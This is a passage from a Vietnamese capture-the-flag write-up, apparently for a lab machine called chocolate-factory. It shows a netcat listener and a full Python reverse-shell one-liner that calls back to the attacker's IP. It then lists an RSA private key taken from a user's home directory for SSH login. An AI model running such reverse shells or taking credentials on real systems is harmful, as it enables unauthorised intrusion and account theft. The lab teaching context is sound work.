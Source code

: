 Tạo listener: `nc -lnvp 2402`, sau đó tạo payload với python3 và dán nó phần command

`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.3.74",2402));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`

```python
┌──(neo㉿kali)-[~]
└─$ nc -lnvp 2402             
listening on [any] 2402 ...
connect to [10.18.3.74] from (UNKNOWN) [10.10.184.210] 35746
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

www-data@chocolate-factory:/var/www/html$ 
```

## SSH

Trong thư mục */home* có *charlie*, trong này tôi có *user_flag* nhưng không thể mở được, tất nhiên rồi! Ngoài ra còn có 2 file teleport, trong đó file *teleport* là file rsa private key, thử lấy nó về và login ssh với rsa key này

```python
www-data@chocolate-factory:/home/charlie$ cat teleport
cat teleport
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA4adrPc3Uh98RYDrZ8CUBDgWLENUybF60lMk9YQOBDR+gpuRW
1AzL12K35/Mi3Vwtp0NSwmlS7ha4y9sv2kPXv8lFOmLi1FV2hqlQPLw/unnEFwUb
L4KBqBemIDefV5pxMmCqqguJXIkzklAIXNYhfxLr8cBS/HJoh/7qmLqrDoXNhwYj
B3zgov7RUtk15Jv11D0Itsyr54pvYhCQgdoorU7l42EZJayIomHKon1jkofd1/oY
fOBwgz6JOlNH1jFJoyIZg2OmEhnSjUltZ9mSzmQyv3M4AORQo3ZeLb+zbnSJycEE
RaObPlb0dRy3KoN79lt+dh+jSg/dM/TYYe5L4wIDAQABAoIBAD2TzjQDYyfgu4Ej
Di32Kx+Ea7qgMy5XebfQYquCpUjLhK+GSBt9knKoQb9OHgmCCgNG3+Klkzfdg3g9
zAUn1kxDxFx2d6ex2rJMqdSpGkrsx5HwlsaUOoWATpkkFJt3TcSNlITquQVDe4tF
w8JxvJpMs445CWxSXCwgaCxdZCiF33C0CtVw6zvOdF6MoOimVZf36UkXI2FmdZFl
kR7MGsagAwRn1moCvQ7lNpYcqDDNf6jKnx5Sk83R5bVAAjV6ktZ9uEN8NItM/ppZ
j4PM6/IIPw2jQ8WzUoi/JG7aXJnBE4bm53qo2B4oVu3PihZ7tKkLZq3Oclrrkbn2
EY0ndcECgYEA/29MMD3FEYcMCy+KQfEU2h9manqQmRMDDaBHkajq20KvGvnT1U/T
RcbPNBaQMoSj6YrVhvgy3xtEdEHHBJO5qnq8TsLaSovQZxDifaGTaLaWgswc0biF
uAKE2uKcpVCTSewbJyNewwTljhV9mMyn/piAtRlGXkzeyZ9/muZdtesCgYEA4idA
KuEj2FE7M+MM/+ZeiZvLjKSNbiYYUPuDcsoWYxQCp0q8HmtjyAQizKo6DlXIPCCQ
RZSvmU1T3nk9MoTgDjkNO1xxbF2N7ihnBkHjOffod+zkNQbvzIDa4Q2owpeHZL19
znQV98mrRaYDb5YsaEj0YoKfb8xhZJPyEb+v6+kCgYAZwE+vAVsvtCyrqARJN5PB
la7Oh0Kym+8P3Zu5fI0Iw8VBc/Q+KgkDnNJgzvGElkisD7oNHFKMmYQiMEtvE7GB
FVSMoCo/n67H5TTgM3zX7qhn0UoKfo7EiUR5iKUAKYpfxnTKUk+IW6ME2vfJgsBg
82DuYPjuItPHAdRselLyNwKBgH77Rv5Ml9HYGoPR0vTEpwRhI/N+WaMlZLXj4zTK
37MWAz9nqSTza31dRSTh1+NAq0OHjTpkeAx97L+YF5KMJToXMqTIDS+pgA3fRamv
ySQ9XJwpuSFFGdQb7co73ywT5QPdmgwYBlWxOKfMxVUcXybW/9FoQpmFipHsuBjb
Jq4xAoGBAIQnMPLpKqBk/ZV+HXmdJYSrf2MACWwL4pQO9bQUeta0rZA6iQwvLrkM
Qxg3lN2/1dnebKK5lEd2qFP1WLQUJqypo5TznXQ7tv0Uuw7o0cy5XNMFVwn/BqQm
G2QwOAGbsQHcI0P19XgHTOB7Dm69rP9j1wIRBOF7iGfwhWdi+vln
-----END RSA PRIVATE KEY-----
```
